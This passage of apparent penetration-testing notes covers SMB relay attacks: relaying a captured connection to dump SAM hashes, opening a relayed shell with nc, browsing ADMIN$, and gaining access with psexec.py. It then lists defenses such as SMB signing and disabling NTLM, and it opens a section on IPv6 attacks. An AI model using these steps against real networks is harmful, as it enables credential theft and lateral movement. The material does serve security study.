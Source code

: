 *we have received connection from `IP 10.55.100.179` and now,\
 we will be targeting `smb://10.55.100.190`,\
 using **Taylor's** credentials,\
if Taylor is an **admin** on that machine,\
it works and Dumps SAM Files (or SAM Hashes)!* 

<br>

If -i mode is used, you will get a message that an interactive shell has been started at 		

	127.0.0.1:11000

Simply use netcat to load shell up

	nc 127.0.0.1 11000

Then you may browse to other shares

	shares
	use ADMIN$
	ls

*Now, use smbexec, wmiexec, psexec or Metasploit to break in!*

	psexec.py domain/user:password@ip 


## Defense Against SMB Relay

<br>

- Enable SMB Signing on all devices
	
		Completely stops the attack
		Can cause performance issues with file copies

- Disable NTLM authentication on network

		Completely stops the attack
		If Kerberos stops working, Windows defaults back to NTLM

- Account tiering

		Limits domain admins to specific tasks
		Enforcing the policy may be difficult

- Local admin restriction

		Can prevent a lot of lateral movement
		Potential increase in the amount of service desk tickets



## IPv6-Attacks

---

Suppose the Machines on our network are using IPv4 but they have IPv6 turned on, our attacker Machine can listen for v6 messages that come through.
